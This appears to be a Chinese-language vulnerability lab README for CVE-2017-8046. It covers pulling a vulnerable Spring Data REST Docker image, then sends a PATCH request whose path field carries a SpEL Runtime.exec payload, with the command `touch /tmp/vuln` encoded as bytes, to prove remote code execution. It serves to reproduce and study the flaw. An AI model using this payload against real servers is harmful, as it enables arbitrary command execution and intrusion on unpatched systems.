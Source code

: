 ## Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)

### 漏洞信息

 * [CVE-2017-8046: RCE in PATCH requests in Spring Data REST](https://pivotal.io/security/cve-2017-8046)
 * [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_spring_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

1. 访问 `http://127.0.0.1:8080/`，测试服务是否启动成功

 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-1.png)

2. 利用 POST 请求添加一个数据

	```
	POST /persons HTTP/1.1
	Host: 127.0.0.1:8080
	Content-Type: application/json
	Cache-Control: no-cache
	
	{"firstName": "VulApps", "lastName": "VulApps"}
	```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-2.png)

3. 执行 PoC

  执行命令为: `/usr/bin/touch /tmp/vuln`，注意 Content-Type 值为 `application/json-patch+json`

```
PATCH /persons/1 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json-patch+json
Cache-Control: no-cache
Content-Length: 228
	
[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,118,117,108,110}))/lastName", "value": "vulapps-demo" }]
```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-3.png)

4. 进入容器，发现成功创建文件

 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-4.png)

### 参考链接

* [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 改动日志

* 2017/09/29 删除原 jar 包中 mongodb 依赖

